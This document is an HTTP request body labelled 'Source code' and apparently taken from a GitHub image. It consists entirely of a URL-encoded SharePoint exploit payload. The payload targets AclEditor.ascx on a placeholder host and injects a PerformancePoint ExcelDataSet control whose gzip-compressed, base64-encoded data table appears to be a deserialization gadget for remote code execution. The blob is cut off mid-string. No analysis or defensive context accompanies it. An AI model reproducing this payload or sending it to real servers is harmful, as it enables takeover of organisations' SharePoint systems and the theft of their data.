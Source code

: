 ```http request
MSOTlPn_Uri=https%3A%2F%2Fx.x.x.x/_controltemplates/15/AclEditor.ascx&MSOTlPn_DWP=%3C%25%40+Register+TagPrefix%3D%22Scorecard%22+Namespace%3D%22Microsoft.PerformancePoint.Scorecards%22+Assembly%3D%22Microsoft.PerformancePoint.Scorecards.Client%2C+Version%3D16.0.0.0%2C+Culture%3Dneutral%2C+PublicKeyToken%3D71e9bce111e9429c%22+%25%3E%3CScorecard%3AExcelDataSet+CompressedDataTable%3D%22H4sIAAAAAAAAC%2B1cW5PayJKe2cuJOHv2bf%2BAw68z4%2BZqNxP2RJSEJBCXbnERoBMTsUiiBY0EmJuAx%2F0lG7E%2FdPfLLDUIutv2%2BJyxd3atjqZ0qcrKyltlZpX03ffffffdf%2BOgko5%2F%2FQf8NNv71XoUvSoP18MfX9ij5Woyn70rvMrQ348v1E243ixH72ajzXo5DH98cbtxw4lXG%2B078%2Blo9s5982ZY9Iqvs6V8YZS5Lv0zAf%2B3FEz%2BaY%2FW1Nef%2B1HY9sajaPgXnJUnd3fGchh9%2Fz09%2B9M%2F4ue%2F%2Fvx2t%2Fp5xVVe7KJwtnr38qU8%2BXmH8%2FF6vfj56iqO41dx%2FtV8GVzlMpnsVb9Rl2Af6kYrH72%2Be7lZzhJoq5%2Biibecr%2BZ365%2B8efQz6v0ka718MfHfvVzNoxFdrUbrl7%2F8y4vkIGxG4SgazdYvZsNodF7vhQTwc3WVjPHdy%2FVyMzre765G6ma5ROP63BuGo%2BTxCfxDF0BoEY52nf1idP7wWGE8n3ijF9FkduN5myUokUEvw93D1Wbmzjczf%2BRfAH9%2BHOPR%2BBKT34TVZeXV6P1mNPM%2BUvNpXBbx7EgzoiT1%2BO5lIkPqPAxH3hpCuXpljGaj5cR7VZ%2Bs1v%2Be%2Fetf02LWHi23oNHqVXW2Hi1nw%2FCVtlsMiSa95XCxGC3%2FPXds0Bu5r7rVV%2FX5Sp8vo%2BEaDX58cXr2OWqQyd8V797cZbN%2BMTPMD3%2F98djXZObP45VE8sa9x1jo9HY530586vd2OVqBFkMaog51GMXz5fQzUMhn3bv8dfH10M%2B%2FLozyxV9%2FPY7pjEB%2FByX%2F9deXL9bMJPByONsTw16eS%2BfVR0Tm6pNkhqt9VA65ViJST%2BjP1VGBLjTvWeCPAUp82ZL88qd%2FgqX6j%2F%2F8%2Fq0PAxYsf5bFMPos2yPbSBAfa%2FPQ0U%2FbbNpGpUzSxQBJyV8kWJKR6wzd8GSelvP4ZgkRZGOS1BoPV%2Bp4OAtGYOJkthot10%2FalLdQ2aNZnnzcLv8EWOshWH0y5v4nWPNn2H2h2Dd3aUV%2BrGJfANEXH8FUk7L0jFK8BaaE9MjHCQa03mc%2BoBKN0Xo895swFL%2BUYTmWk2E4OYzeXqXuf6zx7ZDsDIi1%2BoiWJrr9JSgI4D8%2F2BT%2F59V6OZkFL3%2B5irX9pKIJYQkhbq9wXCs4S45YpV872yx6%2BVbotov9Ya84dfP%2BoT51tl6UPdRVpef0zcOwV9rcdqxNQy3E9XuxqmrNrFtpZb2oW3IjO%2BtXzLGrxkG3Yk9cI7xv5%2ByibZSWTq9QGtx7%2BUHHvm92BrubTiPjdEThxuoyHlX7A31P9ULbKB18dd3xDT3jWBiHEK1uxdx6hr33K6E66Pkq2o292bQigio9N0VMxXWZfncHj3p5ZvwWn9%2Bdxl92c7uV02tmaLzevlhxesXQi8L7%2BnS3QJ2gYa%2Fdbj48%2BIa9rk9Lk2Fk3%2FsYt9tv3rt5czXsVVdV3Qm9WXPh5gqlpqQX6BYHVt5e%2BRV773SyG6dvZ7xIX4G%2Blt%2Bjds260w%2B7bm4duvfZSfPgj5u9RrZ5rxUbh1bYKAdFNOExKWFpQf17sX3n5cLXjjW%2B8yN7j%2FOtG3RRI6iqFtOiRj9qQI0E85opKKYMR7WIKMJUuJga8h7RS5hcWUxNeW8u7zFdpw36LVuDiqSzJunJMDxVtTJ0AnTxa%2BidUb%2BZcXqZjZ0r7Yc5Z%2BXmvY2VK609o7QBbTOdXmnq9OK%2FA80yh0bPjBqHINuM9GnjMICcNbIKj1F5f%2BRZ6EO21pFrlPL1aXPr9pUt5Hfja9mtY9iretgkfo8hw68H%2FRbhs7FIHvrOAvLW8fvm3s35Y8DqOL1dOMi3tt5kfTvALIjz1PPuspMz35MsdXP2ftjTV8P%2BInR0M3SknGqAFzvWeu30shPomIb%2Bxl7c0CsnebTdKMyM7EucilXI6dTpV28kf66ZP5K3ms4yIvnX4uct7k9RgiOjTE3ykoQFt5jn3Fxt8S1T57paNQWrL5%2FzA0W1TrAMKT9DCWuegrXi5xWJVz0Fy5fPC%2FxACvXuKCuQj5VrQK8MyPOssWkb%2BmFYaY0H0S5UGO9Fw83p01ako05pr2SPslOVsqXvQRuL22lN4qvlRaXcsNcKvWBcHfSb8y7rTYvk56CEztit2KFHsOOGUKwuROwD%2BHRZbsYedM7Un7Ud5tP936%2B6neBKMBnnNalD0zumR5uJc1tmegqip9qx3%2BOqcaQp7JcQdW58UrvfcMiWhbtNUBBrMWtW3UCBSR7bxnjh7ZUYeM6gY%2Buq0Ry7UXHrq8rEaSt7v1cIhvhvaaVO1SBd6W7KVqbGBoIPxWoBmQ6xs2k27nInHAVJ6QT8tyAPCosU2xoez4Rl9ySZcqCyMX5TxlqKNx%2FSOiW1cDSEVe3Kysqp8rFBCggfNWuLmyzPXKkWJACfOBhTZtLffNDILztS6YYWXNwsZpz%2BmA2pInGX2si%2FTL%2BL%2BoznBjqwH8Sn8Uh68q%2FU87NDEqs%2BM0PYwnuRCFnCGfWMSamDoFkX6MqjHNQfyCQRBYyuqKkAW4FSPebC5x%2FKKlaEInUICGlWdU4sUicBc1MNBkUnJjo5W5rb1OiahlJTomsyRTU3poaLPbX1xKrizWD%2FKmJONk2dFxf3DFib07wJmGS3amrs79dUv1In2YlrYorb8znZLtShebZWE2Tv5nUlXz%2FIOsTC%2BSM4RqxhpgxuZJu5rEP4B8AlWimESzl%2BCm7NhcsS15iS7xvMpPajvneyjvaBOmZLBFSn%2BiR%2BecxPwK%2FzJH7juEz40STzGD%2B4DTGNW17XFBK7xZbmEnXcqNT2cUvJXZPe1RY8Z2kN4As%2FQom1oDonJqnjqlpTJG2NNF47reLuGO56XyrYmuVnpTfYqGpWsFJ2WtXdkQAuPW89ZRwrxM8gY3qzgSYqyrYi8dA0q7U%2FgPmecj13d4THvKO0NF1Xhk0W8N41CUDNVwaEY0cJvI7auq7fs%2F%2BpddSxVtPHmjmnMl%2FPQRZjOjcUzXD3TPeJZs0dbxzooqLS%2BVCznG2V%2Bp%2FHNH6F6%2BerAwW8ovMKt208tPVTbUfUluys%2Br7aUsfXZurZHXBBO6Lz%2Bwbr6xB1JkHENCsVyua6IB7kHrSfnenBnoY5N9yY5v%2FFtkb0Wss2tUBRSABYFcoZkrgiXfqkYszX1FGFzIoyTwU22yc2JQ6NU1YgOipZgjWKz59bYbNmEczE%2BLMvUBlk2P87iEOjQ7JAFRV2JjoEX23%2BgJ8CwVsTLLXZQfyxcCMfeofDiIkUHul%2BNWujCcsQ91DN%2BHa7S6fqgGSaB6U2VdjASWpA%2BNcrOkrp55Rfm52GYJ%2BI3UnGSZpyBnVxnbg%2FCbDaaSYaYOoR6Gcg7EDkqPS5nIv3QoVPRGZMlq%2B5HACIxvVNS5a1WJbL5P4%2BkOW1VRkJayB0q87lTVK2ktITVa4XBjVNBAOxSK5XlrzeCllmYirn4iqoh1RWg1sunZjKgXhvNR7o9GDPUTL%2FLKGwH6nLa0VGIEI1DDAVNgZqohG3boh%2BDaZLUqoa%2BAgUUWYCMSZ65i15v2SJSJTJI9BqojwFcA1DR7sAHizKG0vLUWkJ7Zqetyy9TKWdlMOkvAv0CpVTS5azWN7fCr1OZSbQLSqvLN0WhgY6m0OBuHktlDtRIXgml30quX%2F9np47sfleVDVxJ6o1USW45obK95aZIY98b5mvRQ3jCWqqqGugzI1JZTO%2BaVLZCuR1L7kfxDdtOS6jT%2BOOrBufylncwPg1sbBQQvTVWC1SqcVlVdSqiVv1%2BAhPQpk6NCF99seTshaT3KWO8q7p5lpZ1%2Bj%2BICgWj7Jzx3BW9ai1coWiCyN7GCC2Q2wyEQ%2B%2BsKUk8ZAl6lEz4%2Bar4hR%2FmVl3hhim103iwHCF2KeDf%2FjHiHNiBX50Nh72dmP2t0PyT%2FRCEvccrH4LMWA48futUOgPsGxuQ3UGUYg4q1U8q5fC%2B4gj8g1OryraFdSDjw444QgThpOzM%2F1MM%2BuRXzSz5HMdeM0QY4Q2fPsd4sCprJdN7gfA2bDH3hQxeFTaC22c8StK2%2Bk3Y8LZsZSZ02%2FddSP7QHGvl%2BsKK4fYsV8VrV4xN%2BybiEGz3F8LcDtGaQZajF2ttUfcSTQx8ezQgKsu7ZwnWujH7ekZQbhHzbEvlJqbCzfC8ENfLzUHveYceZGwA1%2F%2B2H%2FCg5YR7ilOQb6imNQvU9xK8fgTzyh2ucdYDrhXdvOIlYWEZyPPM8w0tz7aJXVtD7Fu0uct5WiYb5H%2FEEsl9C117GO%2B4pRfSmCcrp%2BLrUAP4CnjsUjfjyylAnx0d%2BYsgOsG8rDxdQfxWcgx46P6XTzvZRFT6yybRHPwIYt2hO8W%2FDQvrrVh0vegbxbxLIN8UzKWdYj%2BJT2Qm%2FB7XYGcRs7pFlme2t0W8kbK1svpyIt1BfAgGSCZOMaXkIvoGF9i3vXyzdBFfgNwOc4VeqvoUVv0Z3POQGmivzn00nQjZys0kgmmswFdmWG8RI%2BkjgV8ILdGaWpFOvULWXK2Q8hgKicSDiZE42I07PnI6ek8VqFlx4PcGHBtipOR75A0eODTALrgIC9H9yjfd1H%2F7PlTbZJ7GuDuR33lBOeJ%2BxewH%2Bk755ESPiQ5ALQDXQzkT7ocrwo7byJvBjpGu6yH%2BBR8nArNLgxydixpD3tX6a6FmhF1C6b%2FN5Qwv8CxgPkHzhFHPspeGNeY1JRQVKoCOrMQ6Bs5huBz4KMkP6LUCeBHGRkxCCRcWP6tMAZUNqg%2FJ6Z%2BGmJA%2FhLwaDEeU%2FgZVL8hbgL0X1lh3lVK5GeIcoh2U%2BClZKi%2BGysRlR2G62H%2BVO5pPnTJE9TgMweAXxkI0PogyvAPhPKGnLY7xk%2BUb%2BBTmZkGwVnDBxe%2BBbg0buoX9AFea7p%2BhIdWMkB79CPxBt3GAvqDJEjA4%2BL6dI1x0PNYKdJ4QFfYd6I%2FnAoaB43T4Ptbos%2FIIleK%2FE64VhUMETyuAz%2FgtafnGMeG4KK99qnt7W6B2mMc3H6fppuX8H0QS3oDT4bDfMd99zQO0LFB%2FQKORvXn1D%2F0P3xMV%2BXuA3xfczuim%2BQj4w98oF%2BW7Bf9gI%2B4bgBfeQ3bciA8gP86oSf4hLg0QPmof1VMsiS7sm%2FgOCZcGNYTvAFtDkeeG49pDVyLTLNExhzGmXmAa9CWSoKDMIng8H3IEtMaOEpdKqDdE2N5LJOlDu
```